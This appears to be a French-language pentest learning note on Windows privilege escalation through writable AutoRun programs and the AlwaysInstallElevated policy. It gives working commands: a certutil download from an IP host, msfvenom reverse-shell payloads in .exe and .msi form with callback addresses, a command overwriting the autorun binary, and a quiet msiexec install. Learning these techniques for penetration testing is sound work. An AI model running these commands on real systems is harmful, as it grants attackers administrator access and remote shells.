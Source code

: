 This is my learning about windows Privilege Escalation
## Weak Registry Autoruns Escalation
Windows peut être configuré pour exécuter des commandes au démarrage, ce processus est appelé AutoRun. Ces exécutions automatiques sont configurées dans le registre. Si vous êtes en mesure d'écrire dans un exécutable AutoRun et de redémarrer le système (ou d'attendre qu'il soit redémarré), vous pouvez être en mesure d'élever vos privilèges.

Pour cela utilisons winpeas pour voir s'il ya des programmes qui ont un droit de autorun
```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
.\winPEASany.exe quiet applicationsinfo
```
trouver un program d'autorun  qui es le program.exe dans `C:\Program Files\Autorun Program\program.exe`

Si nous souhaitons effectuer l'énumération manuellement, il suffit d'utiliser la commande ci-dessous :
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
Pour vérifier la permission du programme.exe, nous utiliserons accesschk.exe.

```
.\accesschk.exe /accepteula -wvu "Program path"
```
Maintenant pour l'exploiter on doit creer un program avec le meme nom que program.exe avec notre listner
```
msfvenom -p windows/shell_reverse_tcp lhost=10.4.5.83 lport=53 -f exe > shell.exe
```
copy it to program.exe
```
copy /Y shell.exe "C:\Program Files\Autorun Program\program.exe"
```

## AlwaysInstallElevated
 Dans les tests de pénétration, lorsque nous lançons un shell de commande en tant qu'utilisateur local, il est possible d'exploiter les fonctions vulnérables (ou les paramètres de configuration) de la stratégie de groupe de Windows, afin de les élever aux privilèges d'administrateur et d'obtenir l'accès d'administrateur.
 Comme nous le savons tous, le système d'exploitation Windows est doté d'un moteur Windows Installer qui est utilisé par les paquets MSI pour l'installation d'applications. Ces paquets MSI peuvent être installés avec des privilèges élevés pour les utilisateurs non administrateurs.
**Detection**
Pour detecter cela il suffit
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Comme nous pouvons le voir dans la sortie, le registre nommé "AlwaysInstallElevated" existe avec une valeur dword (REG_WORD) de 0x1, ce qui signifie que la stratégie AlwaysInstallElevated est activée.

- Privilege Escalation via .msi payload 
La premiere methode est de creer un payload en `.msi` ensuite l'executer avec `msiexec /quiet /qn /i`
/quiet = Supprime tout message à l'utilisateur pendant l'installation
/qn = Pas d'interface graphique
/i = Installation normale (vs. administrative)
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 -f msi > shell.msi

msiexec /quiet /qn /i shell.msi
```